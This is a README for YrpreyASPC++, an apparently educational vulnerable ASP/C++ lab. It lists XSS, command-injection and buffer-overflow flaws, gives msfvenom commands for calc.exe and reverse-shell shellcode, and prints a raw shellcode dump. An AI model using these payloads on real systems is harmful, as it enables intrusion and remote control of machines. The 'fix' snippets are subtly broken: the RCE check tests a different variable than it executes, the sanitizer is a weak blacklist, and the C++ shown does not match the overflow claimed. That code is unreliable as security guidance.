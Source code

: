 # YrpreyASPC++

![yprey](https://i.imgur.com/POSFjX8.png)

**Created by [Fernando Mengali](https://www.linkedin.com/in/fernando-mengali-273504142/)**

YrpreyASPC++ is a development framework for those interested in offensive security and application security to mitigate vulnerabilities. This framework aims to demonstrate vulnerabilities in ASP and how Cross-Site Scripting, Buffer Overflow, and remote command execution vulnerabilities work, exploiting the lack of sanitization in ASP processing and the executable software create_user.exe.


The framework was developed to teach and learn details in Pentest (testing penetration) and Application Security. In the context of Offensive Security, vulnerabilities contained in web applications can be identified, exploited and compromised. For application security professionals and experts, the framework provides an in-depth understanding of code-level vulnerabilities. Yrprey, making it valuable for educational, learning and teaching purposes in the field of Information Security. For more information about the vulnerabilities.

#### The system has the following vulnerabilities:

After understanding the scenario and the vulnerable route, the process of identifying and exploiting vulnerabilities becomes easier. If you are an Application Security professional, knowing the scenario and routes of endpoints makes the process of identifying and correcting vulnerabilities easier with manual Code Review Security techniques or automated SAST and DAST analyses

Complete table with points vulnerables, vulnerability details:



 ## The framework was written with the following technologies:

* 1º - ASP
* 2º - C++ language

#### List of Vulnerabilities

|Qtde |          **Vulnerabilties**          |**Method**|  **Path and attack**                |                   **Payload Example**                   |
|----:|:------------------------------------:|:--------:|:-----------------------------------:|:-------------------------------------------------------:|
| 01  |  XSS - Cross-site Scripting          |   GET    |  /index.asp                         |        XSS Basic                                        |
| 02  |  Remote Command Execution            |   N/A    |  create_user.exe pipe <command>     |   create_user.exe "pipe" ipconfig                       |
| 03  |  Buffer Overflow - Vanilla           |   N/A    |  create_user.exe <exploit payload>  |   create_user.exe (28 offset)+EIP+(16 0x90) + shellcode | 


## How Install IIS

* 1º - Access Control Panel: Click on "Start" and select "Control Panel".
* 2º - Add or Remove Programs: In the Control Panel, click on "Add or Remove Programs".
* 3º - Add/Remove Windows Components: On the left side, click on "Add/Remove Windows Components".Import the yrprey.sql into the database.
* 4º - Select Internet Information Services (IIS): In the list of Windows components, check the box for "Internet Information Services (IIS)".

## Configure IIS
* 1º - Access the IIS Manager: After installation, open the "Internet Information Services (IIS) Manager". To do this, click on "Start" > "Control Panel" > "Administrative Tools" > "Internet Information Services (IIS) Manager".
* 2º - Configure the Default Website:   In the IIS Manager, expand the local computer node and click on "Websites". You will see the "Default Website".
* 3º - Default Website Properties:   Right-click on the "Default Website" and select "Properties".
* 4º - Basic Settings:   In the "General" tab, you can view and change the physical path where the site files are stored.
* 5º - In the "Documents" tab, you can add or remove default pages such as default.asp or index.html.
* 6º - Security and Permissions: In the "Directory Security" tab, you can configure permissions and authentication for the site.

## Access to page

* 1º Add the ASP file, such as index.html or default.asp, and save it in the root directory of the "Default Website": C:\Inetpub\wwwroot.
* 2º Access the Site: Access the address http://localhost in your browser


## How to fix vulnerabilities

Sanitization Protect
```asp

Function SanitizeInput(input)
    SanitizeInput = Replace(input, "'", "''")
    SanitizeInput = Replace(SanitizeInput, ";", "")
    SanitizeInput = Replace(SanitizeInput, "&", "")
End Function

username = SanitizeInput(Request.Form("username"))
email = SanitizeInput(Request.Form("email"))
telephone = SanitizeInput(Request.Form("telephone"))


```

Protection to XSS
```asp

Function HTMLEncode(str)
    HTMLEncode = Server.HTMLEncode(str)
End Function
Response.Write "Username " & HTMLEncode(nome) & " successful!"


```

Protection to Remote Command Execution - RCE
```asp
If InStr(nome, "|") = 0 Then
    shell.Run "create_user.exe " & userme, 0, True
End If

```


### This is the vulnerable code in C++ language.
```c++

#include <iostream>
#include <cstdlib>
#include <cstring>

using namespace std;

int main(int argc, char *argv[]) {
    char username[20];
    char mkdir_command[50];

    // Checks if the expected argument (username) has been passed
    if (argc != 2) {
        cout << "Usage: " << argv[0] << " username" << endl;
        return 1;
    }

    // Copies the argument to the username variable
    strncpy(username, argv[1], sizeof(username) - 1);
    username[sizeof(username) - 1] = '\0';  // Ensures username is correctly terminated

    // Constructs the command to create the directory with the username
    snprintf(mkdir_command, sizeof(mkdir_command), "mkdir %s", username);

    // Executes the mkdir command to create the directory
    cout << "Executing command: " << mkdir_command << endl;
    int result = system(mkdir_command);

    // Checks if the directory was created successfully
    if (result == 0) {
        cout << "Directory '" << username << "' created successfully." << endl;
    } else {
        cout << "Error creating directory '" << username << "'." << endl;
        return 1;  // Exits the program in case of an error during directory creation
    }

    // Here you can continue the flow of your program as needed

    return 0;
}


```

## Generate Shellcode calc.exe usage


Command msfvenom to generate calc.exe

````c
msfvenom -p windows/exec CMD=calc.exe -b '\x00\x0a\x0d' EXITFUNC=thread -f python

````

````

\xd9\xe5\xd9\x74\x24\xf4\x5e\x29\xc9\xbf\x4e\x2d
\xb6\x3e\xb1\x31\x83\xc6\x04\x31\x7e\x14\x03\x7e
\x5a\xcf\x43\xc2\x8a\x8d\xac\x3b\x4a\xf2\x25\xde
\x7b\x32\x51\xaa\x2b\x82\x11\xfe\xc7\x69\x77\xeb
\x5c\x1f\x50\x1c\xd5\xaa\x86\x13\xe6\x87\xfb\x32
\x64\xda\x2f\x95\x55\x15\x22\xd4\x92\x48\xcf\x84
\x4b\x06\x62\x39\xf8\x52\xbf\xb2\xb2\x73\xc7\x27
\x02\x75\xe6\xf9\x19\x2c\x28\xfb\xce\x44\x61\xe3
\x13\x60\x3b\x98\xe7\x1e\xba\x48\x36\xde\x11\xb5
\xf7\x2d\x6b\xf1\x3f\xce\x1e\x0b\x3c\x73\x19\xc8
\x3f\xaf\xac\xcb\xe7\x24\x16\x30\x16\xe8\xc1\xb3
\x14\x45\x85\x9c\x38\x58\x4a\x97\x44\xd1\x6d\x78
\xcd\xa1\x49\x5c\x96\x72\xf3\xc5\x72\xd4\x0c\x15
\xdd\x89\xa8\x5d\xf3\xde\xc0\x3f\x99\x21\x56\x3a
\xef\x22\x68\x45\x5f\x4b\x59\xce\x30\x0c\x66\x05
\x75\xf2\x84\x8c\x83\x9b\x10\x45\x2e\xc6\xa2\xb3
\x6c\xff\x20\x36\x0c\x04\x38\x33\x09\x40\xfe\xaf
\x63\xd9\x6b\xd0\xd0\xda\xb9\xb3\xb7\x48\x21\x1a
\x52\xe9\xc0\x62
````

Exploited Buffer Overflow Vanilla - Calc.exe

![yprey](https://i.imgur.com/bxIt0JW.png)

## Generate Shellcode shell reverse usage

Command msfvenom to generate calc.exe

````c

sfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> EXITFUNC=thread -b '\x00\x0a\x0d' -a x86 --platform Windows -f c

````

Exploited Buffer Overflow Vanilla - Shell Reverse

![yprey](https://i.imgur.com/ljv3tLs.png)

![yprey](https://i.imgur.com/MXMfA84.png)



## Observation
You can test on Windows XP with IIS.

## Reporting Vulnerabilities

Please, avoid taking this action and requesting a CVE!

The application intentionally has some vulnerabilities, most of them are known and are treated as lessons learned. Others, in turn, are more "hidden" and can be discovered on your own. If you have a genuine desire to demonstrate your skills in finding these extra elements, we suggest you share your experience on a blog or create a video. There are certainly people interested in learning about these nuances and how you identified them. By sending us the link, we may even consider including it in our references.

